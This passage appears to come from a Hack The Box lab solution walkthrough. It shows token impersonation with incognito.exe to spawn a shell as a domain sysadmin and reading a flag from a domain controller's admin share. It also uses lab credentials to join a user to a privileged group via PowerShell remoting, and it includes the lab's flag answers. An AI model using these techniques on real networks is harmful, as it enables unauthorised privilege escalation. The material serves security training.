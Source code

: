 ```powershell
.\incognito.exe execute -c "LEGACY\sysadmin" C:\Windows\System32\cmd.exe
```

```
PS C:\Tools> .\incognito.exe execute -c "LEGACY\sysadmin" C:\Windows\System32\cmd.exe

[-] WARNING: Not running as SYSTEM. Not all tokens will be available.
[*] Enumerating tokens
[*] Searching for availability of requested token
[+] Requested token found
[+] Delegation token available
[*] Attempting to create new child process and communicate via anonymous pipe

Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Tools>
```

Lastly, students will query the `flag-final.txt` file located in the `C:\skills-assessment\flag\` directory:

Code: cmd

```cmd
type \\dc01\c$\skills-assessment\flag\flag-final.txt
```

```
C:\Tools>type \\dc01\c$\skills-assessment\flag\flag-final.txt

{hidden}
```

Answer: `ctf-{Token-Player}-htb`

# Skills Assessment

## Question 6

### "Which security group you added the user to be able to access the path '\\\\dc01\\c$\\ADMINS$' ? Answer format is LEGACY\\A\*\*\*\*-\*\*\*\*\*"

Students will run PowerShell as the `admin.user` user and password `password@123` by right-clicking on `PowerShell` -> `More` -> `Run as different user`:

![[HTB Solutions/Others/z. images/5b878fafec7bae6d5431c77be89bb056_MD5.jpg]]

![[HTB Solutions/Others/z. images/9667c0a7c6fb545aee93413c81688294_MD5.jpg]]

Students will establish a PowerShell session using `Enter-PSSession` on `DC01` and use the `Get-ACL` cmdlet to display the access control list (permissions) of the `ADMINS$` directory on `\\dc01\`:


[DC01]: PS C:\Users\admin.user\Documents> Get-ACL -Path "\\dc01\C$\ADMINS$\" | Format-List -Property AccessToString
[DC01]: PS C:\Users\admin.user\Documents> net group Admin-Files admin.user /add
[DC01]: PS C:\Users\admin.user\Documents> cd 'C:\ADMINS$\'
[DC01]: PS C:\ADMINS$> ls
[DC01]: PS C:\Users\admin.user\Documents> exit